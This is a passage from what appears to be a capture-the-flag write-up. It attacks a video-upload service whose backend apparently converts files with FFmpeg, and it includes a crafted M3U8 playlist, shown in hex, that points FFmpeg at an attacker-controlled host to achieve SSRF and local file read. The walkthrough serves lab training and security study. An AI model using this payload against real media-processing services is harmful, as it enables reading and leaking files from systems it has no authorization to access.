 Now when I go to `/uploads`, select a small `.mkv` file, and click
Submit, there's a message suggesting it was successful:

![](/img/image-20220727202426297.png)

### ffmpeg

#### Strategy

The text on the upload page says the video will be "converted on the
backend". This implies some kind of automated processing of the uploaded
video. If a Linux tool is being used on the video, it is almost
certainly [FFmpeg](https://ffmpeg.org/).

#### Local File Read POC

Some Googling for recent vulnerabilities in FFmpeg turns up [this
hackerone report](https://hackerone.com/reports/1062888), which shows
how to abuse FFmpeg with a SSRF and a local file read.

First I'll create a `header.m3u8` file in a web directory. It's
important that that file not have anything after that last `?` character
([this StackOverflow answer](https://stackoverflow.com/a/16114535) shows
how to do that in `vim`), which can be verified with `xxd`:



    oxdf@hacky$ vim -b header.m3u8 
    oxdf@hacky$ xxd header.m3u8
    00000000: 2345 5854 4d33 550a 2345 5854 2d58 2d4d  #EXTM3U.#EXT-X-M
    00000010: 4544 4941 2d53 4551 5545 4e43 453a 300a  EDIA-SEQUENCE:0.
    00000020: 2345 5854 494e 463a 2c0a 6874 7470 3a2f  #EXTINF:,.http:/
    00000030: 2f31 302e 3130 2e31 342e 363f            /10.10.14.6?
